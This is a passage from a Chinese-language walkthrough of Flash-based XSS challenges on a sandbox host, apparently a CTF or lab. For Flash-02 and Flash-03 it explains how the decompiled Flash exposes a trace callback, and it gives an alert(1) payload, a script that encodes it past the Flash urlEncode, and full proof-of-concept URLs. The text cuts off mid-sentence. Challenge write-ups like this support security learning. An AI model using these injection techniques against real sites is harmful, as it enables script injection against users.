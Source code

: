 ```
\"));alert(1);}catch(e){}//

```

POC为：

```
http://sandbox.host.smartgslb.com/flash_1/XSSC1.swf?mp3=http://test.com/1.mp3 

```

11. Flash-02
------------

Flash 类的题目从这题开始就都比较坑了，仍然反编译 Flash。经过一番那啥代码之后我们大概总结一下：

1.  传入 Flash 的两个参数 init 和 params 两个参数我们都可控
2.  Flash 代码中的 ExternalInterface.call 都无法利用
3.  Flash 通过 addCallback 公开一个 trace 方法给 JS 调用

又经过一番那啥代码，有了新的收获：

1.  可控的 init 参数我们可以指定为 Flash 公开出来的方法 trace，这样 Flash 就会调用这个 trace 方法
2.  trace 方法返回的是 urlEncode 对 location.href 处理后的数据，location.href 我们可控，并且 addCallback 是会产生 XSS 问题的

思路明确，后面就需要搞定 urlEncode，根据这段函数写出下面的函数：

```
a = "\\\"});alert(1);//";
str = ""
for(i=0;i<a.length;i++){
        s = (((a.charCodeAt(i) - 1) % 127) - 10).toString(16);
        str = str + "%" + s;
}
console.log(str);

```

得到 payload 为：

```
%51%17%72%1e%30%56%61%5a%67%69%1d%26%1e%30%24%24 

```

最终的 POC 为：

```
http://sandbox.host.smartgslb.com/flash_2/?%51%17%72%1e%30%56%61%5a%67%69%1d%26%1e%30%24%24&initfunc=document.mycontent.trace

```

12. Flash-03
------------

先说依据，这一题光图案我就对了好久。仍旧是反编译 Flash。通过代码看到 Flash 可以加载一个我们可控的 Flash，只有当 img 的 width 和 height 值分别为 200 和 300 的时候才会把 XML 中的数据进入到 htmltext 中，so 我就开始疯狂调整 XML 中的参数，以达到过关目的。但是 width 和 height 是会受 xscale 和 yscale 影响的，在 Flash 代码中对这两个值做了限制就是不能大于 0.8，怎么调整 XML 中的这几个值都无法达到想要的效果，无意中把 width 和 height 值设置为 200 和 300，把 xscale 和 yscale 这两个值设置为 -1，结果竟然它就它就它就......
